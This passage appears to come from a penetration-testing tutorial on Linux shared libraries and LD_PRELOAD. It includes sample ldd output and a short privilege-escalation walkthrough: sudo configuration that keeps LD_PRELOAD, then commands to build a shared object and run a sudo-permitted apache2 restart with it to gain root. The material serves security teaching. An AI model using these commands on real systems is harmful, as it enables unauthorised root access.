 ## Shared Libraries

It is common for Linux programs to use dynamically linked shared object libraries. Libraries contain compiled code or other data that developers use to avoid having to re-write the same pieces of code across multiple programs. Two types of libraries exist in Linux: static libraries (denoted by the .a file extension) and dynamically linked shared object libraries (denoted by the .so file extension). When a program is compiled, static libraries become part of the program and can not be altered. However, dynamic libraries can be modified to control the execution of the program that calls them.

There are multiple methods for specifying the location of dynamic libraries, so the system will know where to look for them on program execution. This includes the -rpath or -rpath-link flags when compiling a program, using the environmental variables LD_RUN_PATH or LD_LIBRARY_PATH, placing libraries in the /lib or /usr/lib default directories, or specifying another directory containing the libraries within the /etc/ld.so.conf configuration file.

Additionally, the LD_PRELOAD environment variable can load a library before executing a binary. The functions from this library are given preference over the default ones. The shared objects required by a binary can be viewed using the ldd utility.

````
$ ldd /bin/ls

	linux-vdso.so.1 =>  (0x00007fff03bc7000)
	libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f4186288000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4185ebe000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f4185c4e000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f4185a4a000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f41864aa000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f418582d000)
````
The image above lists all the libraries required by /bin/ls, along with their absolute paths.

### LD_PRELOAD Privilege Escalation

For this, we need a user with sudo privileges.
````
$ sudo -l

Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User daniel.carter may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/apache2 restart
````
We can exploit the LD_PRELOAD issue to run a custom shared library file.
````
$ gcc -fPIC -shared -o root_ld_preload.so root_ld_preload.c -nostartfiles
$ sudo LD_PRELOAD=/tmp/root_ld_preload.so /usr/sbin/apache2 restart
````

## Shared Object Hijacking
